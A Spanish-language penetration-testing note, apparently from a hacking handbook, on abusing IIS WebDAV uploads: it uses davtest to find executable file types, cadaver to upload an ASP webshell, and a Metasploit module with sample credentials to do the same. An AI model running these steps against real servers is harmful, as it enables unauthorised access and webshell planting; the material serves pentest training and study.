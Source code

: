 # Microsoft IIS / WebDAV

## File Upload Abusing

En base a ciertas posibles configuraciones en WebDAV. Con credenciales validas, podremos subir archivos y explotarlos, de esta manera obtendremos acceso a la maquina.

En primer lugar necesitamos saber que tipos de archivos son permitidos subir y ejecutar. Sobre todo nos interesa PHP, ASP, ASPX, JSP. Para comprobar los archivos ejecutables, usaremos la herramienta davtest. En este caso si no hay autenticación:

```bash
davtest -url http://192.168.1.1/webdav
```

Si necesitamos credenciales especificas:

```bash
davtest -auth usuario:contraseña -url http://192.168.1.1/webdav
```

Por lo tanto se suben los archivos:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Y comprueba si se pueden ejecutar:

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Cadaver

Ahora, usaremos la herramienta cadaver para subir y descargar archivos del WebDAV.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Subimos una webshell. Elegimos una escrita en asp:

```bash
/usr/share/webshells/asp/webshell.asp
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Accedemos:

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Metasploit

Podemos usar metasploit para subir la web shell:

```perl
msfconsole

use exploit/windows/iis/iis_webdav_upload_asp

set RHOSTS 10.0.17.27

set HttpUsername bob

set HttpPassword password_123321

set PATH /webdav/metasploit%RAND%.asp

exploit
```

